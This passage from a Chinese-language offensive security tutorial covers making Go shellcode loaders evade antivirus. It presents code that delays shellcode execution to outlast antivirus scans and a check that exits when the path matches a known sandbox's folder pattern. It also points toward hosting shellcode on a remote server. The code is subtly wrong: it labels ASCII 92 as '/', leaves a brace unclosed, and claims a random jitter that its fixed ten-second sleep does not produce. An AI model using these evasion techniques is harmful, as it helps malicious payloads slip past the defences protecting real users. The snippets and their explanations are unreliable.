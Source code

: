一个使用 golang 写的基础免杀模板已经完成，此时还可以加入延迟加载，沙箱对抗等操作

**延迟加载**

新启动一个 exe 杀软会在短时间内扫描，以识别是否为恶意软件，如果此时我们的程序不进行操作，而是等待一段时间后在调用 Shellcode。这样就可以规避杀软扫描，在被扫描完成后再加载、调用 Shellcode。代码如下

```plain
func Sleeeep()  {
    res := 1
    for i := 0; i < 5; i++ {
        number := rand.Intn(900) + 100
        res *= number
    }
    time.Sleep(10 * time.Second)
}
```

通过生成随机数来实现抖动的延迟加载。

**沙箱对抗**

用过某沙箱的都知道，它的运行程序会在 c:\\随机 7 个字符组成\\xxx.exe 下运行。

知道了这个特点，可以判断当前程序运行在什么地方，来判断是否继续运行。代码如下

```plain
func main() {

    args := os.Args[0]
    fmt.Println("当前运行路径:", args)
}
```

运行结果

```plain
PS C:\jw6z6jr> .\demo2.exe
当前运行路径：C:\jw6z6jr\demo2.exe
```

写一个 if 来判断

```plain
func main() {

    args := os.Args[0]
    fmt.Println("当前运行路径:", args)
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
}
```

其中 92 是 / 99 是 C 67 是 c

有一些沙箱会修改文件名后运行，根据此输出，我们可以扩展以下，继续判断名字是否被修改，如果修改了，则退出运行。

至此，实现了内嵌式的 Shellcode 存储方式，我们还可以将 Shellcode 存储在远程服务器或者存在本地，将 Shellcode 分离出来。

## Golang - 分离免杀 - 本地分离
